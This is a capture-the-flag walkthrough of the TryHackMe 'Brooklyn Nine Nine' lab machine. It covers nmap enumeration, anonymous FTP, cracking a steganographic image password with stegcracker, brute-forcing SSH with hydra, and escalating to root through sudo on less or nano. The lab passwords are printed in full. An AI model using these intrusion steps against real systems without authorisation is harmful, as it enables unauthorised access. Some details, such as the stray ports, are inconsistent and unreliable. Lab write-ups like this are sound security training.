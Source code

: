 # [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name |Brooklyn Nine Nine |
| Difficulty | Easy |
| Tags | security, nmap, gobuster, pentetst|

---

IP=`10.10.75.6`

Nmap Scan: 
```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.1.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports:
```
21 ftp
22 ssh
80 http
880 ?
10616 ?
```
There are lots of juicy information about it, an `Apache web-server(80)`, `Anonymous FTP` and `SSH`.

Let’s go through each ports one by one.

```PORT 80 - WEBSERVER```

Greeted with a B99 banner! Noice!
Looking at the source code, we find out the image name and download the image using wget http://IP/brooklyn99.jpg. There are abundance of hints, like Have you ever heard of steganography?

So we shall, use stegcracker to get the hidden data from the image,
```
$ stegcracker brooklyn99.jpg ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/home/cardinal/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt'..
Successfully cracked file with password: admin
Tried 1588 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

And we have set of credentials, that looks like could be used by SSH,
```
$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

```PORT 21 - Anonymous FTP```
Using the Anonymous FTP credentails, `anonymous` as username and password! We get a `note_to_jake.txt` from FTP server. And it contains a sweet text from Amy,

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
```PORT 22 - SSH```
Let’s try and get into SSH using the credentials `holt` as username and `fluffydog12@ninenine` as password!

We got two files in the default directory and one of them is `user.txt` and `nano.save` but it can be accessed by root, hence we have the user’s flag! Let’s enumerate more, so getting the `/etc/passwd` gives us that we have two more potential account - `jake` & `amy`.

Let’s try and get into jake’s account using bruteforce, for bruteforce we could use `hydra`.

```
$ hydra -l jake -P ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://IP
[22][ssh] host: IP   login: jake   password: 987654321
```
And we have jake’s password!!!! Let’s meet jake then!!!!
After getting into jake’s machine and we see it’s sudo privileges by `sudo -l` and we can see that jake has sudo privileges for `less`, and using it we can access the `root.txt` from root user.

```
$ less root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxx

Enjoy!!
```
And we have pwned the box!!!

### Other Method
```
hen we do, `sudo -l` in holt’s account, we find out that we have sudo privileges for nano. And we could escalate using nano as well.
```
